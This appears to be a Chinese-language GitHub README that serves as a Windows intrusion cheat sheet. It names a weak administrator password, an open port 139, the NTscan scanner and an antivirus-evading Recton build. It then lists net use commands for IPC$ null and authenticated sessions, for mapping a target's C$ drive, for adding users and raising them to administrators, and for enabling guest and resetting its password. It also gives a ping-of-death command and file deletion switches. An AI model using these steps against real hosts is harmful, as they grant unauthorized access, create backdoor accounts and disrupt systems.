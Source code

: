 # kzj-柯智杰-github
弱口令:administrator。139端口，无防火墙。
NTscan扫描器，Recton--D贺免杀专用版，DameWare 4.5

NTscan--
net use \\ip\ipc$ " " /user:" " 建立IPC空链接
net use \\ip\ipc$ "密码" /user:"用户名" 建立IPC非空链接
net use h: \\ip\c$ "密码" /user:"用户名" 直接登陆后映射对方C：到本地为H
net use h: \\ip\c$ 登陆后映射对方C：到本地为H:
net use \\ip\ipc$ /del 删除IPC链接
net use h: /del 删除映射对方到本地的为H:的映射
net user 用户名 密码 /add 建立用户
net user guest /active:yes 激活guest用户
net user 查看有哪些用户
net user 帐户名 查看帐户的属性
net localgroup administrators 用户名 /add 把"用户"添加到管理员中使其具有管理员权限,注意：administrator后加s用复数
net start 查看开启了哪些服务
net start 服务名 开启服务；(如:net start telnet， net start schedule)
net stop 服务名 停止某服务
net time \\目标ip 查看对方时间
net time \\目标ip /set 设置本地计算机时间与"目标IP"主机的时间同步,加上参数/yes可取消确认信息
net view 查看本地局域网内开启了哪些共享
net view \\ip 查看对方局域网内开启了哪些共享
net config 显示系统网络设置
net logoff 断开连接的共享
net pause 服务名 暂停某服务
net send ip "文本信息" 向对方发信息
net ver 局域网内正在使用的网络连接类型和信息
net share 查看本地开启的共享
net share ipc$ 开启ipc$共享
net share ipc$ /del 删除ipc$共享
net share c$ /del 删除C：共享
net user guest 12345 用guest用户登陆后用将密码改为12345
net password 密码 更改系统登陆密码
netstat -a 查看开启了哪些端口,常用netstat -an
netstat -n 查看端口的网络连接情况，常用netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况（查看tcp/ip协议使用情况）
netstat -s 查看正在使用的所有协议使用情况
nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名（03前的为用户名）-注意：参数-A要大写
tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数："-w数字"用于设置超时间隔。
ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数："-l[空格]数据包大小"；"-n发送数据次数"；"-t"指一直ping。
ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数"/all"显示全部配置信息
tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如"DEL/AR *.*"表示删除当前目录下所有只读文件，"DEL/A-S *.*"表示删除当前目录下除系统文件以外的所有文件
